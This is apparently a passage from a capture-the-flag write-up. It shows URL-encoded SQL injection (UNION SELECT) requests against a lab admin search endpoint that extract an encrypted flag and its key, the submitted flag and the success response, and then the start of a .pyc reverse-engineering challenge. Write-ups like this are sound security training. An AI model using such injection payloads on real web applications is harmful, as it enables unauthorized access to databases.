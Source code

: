 
- now that you're logged 

- use repeater on these endpoints. For the XOR'd `unravel{flag_fake}` and the key `856abadb45ad7751` 

`GET /admin/products?search=widget%27%20UNION%20SELECT%20NULL,xor_encrypted_flag,NULL,NULL%20FROM%20xord_flag-- HTTP/1.1`
`GET /admin/products?search=widget%27%20UNION%20SELECT%20NULL,key,NULL,NULL%20FROM%20xor_encryption_key-- HTTP/1.1` 


- note the key doesn't change. So get the flag and decrypt it and submit within 2minutes to `POST /api/submit_flag HTTP/1.1` 

```json
{
"decrypted_flag": "unravel{flag_cfaa467692feec64}"
}

```


and BINGO... 


```json
HTTP/1.1 200 OK

Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sun, 09 Jun 2024 23:54:02 GMT
Content-Type: application/json
Content-Length: 81
Connection: close

{"message":"Congratulations! The flag is: SIVUSCG{r3vers3_att@cks_c@sh_ch3cks}"}
```




## Emoticonsole
### Task 
```
462
Finally, a programming language that is Gen Z approved!

Author: tsuto

https://ctfd.uscybergames.com/files/2a0330a42fa526e85a0e5333b10a8873/program.emo
https://ctfd.uscybergames.com/files/08f708f633199eb11e5113999d3d3d5b/runtime.pyc

```

### My Solve

- used a python decompiler on the .pyc file 
